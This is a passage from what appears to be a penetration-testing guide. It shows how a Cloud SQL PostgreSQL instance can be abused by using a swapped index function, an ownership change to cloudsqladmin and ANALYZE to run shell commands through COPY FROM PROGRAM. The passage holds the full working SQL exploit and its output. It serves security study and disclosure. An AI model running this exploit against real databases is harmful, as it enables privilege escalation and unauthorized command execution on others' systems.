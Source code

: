 ```c
GetUserIdAndSecContext(&save_userid, &save_sec_context);
SetUserIdAndSecContext(onerel->rd_rel->relowner,
                       save_sec_context | SECURITY_RESTRICTED_OPERATION);
```

#### Exploitation

1. Start by creating a new table.
2. Insert some irrelevant content into the table to provide data for the index function.
3. Develop a malicious index function that contains a code execution payload, allowing for unauthorized commands to be executed.
4. ALTER the table's owner to "cloudsqladmin," which is GCP's superuser role exclusively used by Cloud SQL to manage and maintain the database.
5. Perform an ANALYZE operation on the table. This action compels the PostgreSQL engine to switch to the user context of the table's owner, "cloudsqladmin." Consequently, the malicious index function is called with the permissions of "cloudsqladmin," thereby enabling the execution of the previously unauthorized shell command.

In PostgreSQL, this flow looks something like this:

```sql
CREATE TABLE temp_table (data text);
CREATE TABLE shell_commands_results (data text);

INSERT INTO temp_table VALUES ('dummy content');

/* PostgreSQL does not allow creating a VOLATILE index function, so first we create IMMUTABLE index function */
CREATE OR REPLACE FUNCTION public.suid_function(text) RETURNS text
  LANGUAGE sql IMMUTABLE AS 'select ''nothing'';';

CREATE INDEX index_malicious ON public.temp_table (suid_function(data));

ALTER TABLE temp_table OWNER TO cloudsqladmin;

/* Replace the function with VOLATILE index function to bypass the PostgreSQL restriction */
CREATE OR REPLACE FUNCTION public.suid_function(text) RETURNS text
  LANGUAGE sql VOLATILE AS 'COPY public.shell_commands_results (data) FROM PROGRAM ''/usr/bin/id''; select ''test'';';

ANALYZE public.temp_table;
```

Then, the `shell_commands_results` table will contain the output of the executed code:

```
uid=2345(postgres) gid=2345(postgres) groups=2345(postgres)
```

### Local Login

Some misconfigured postgresql instances might allow login of any local user, it's possible to local from 127.0.0.1 using the **`dblink` function**:
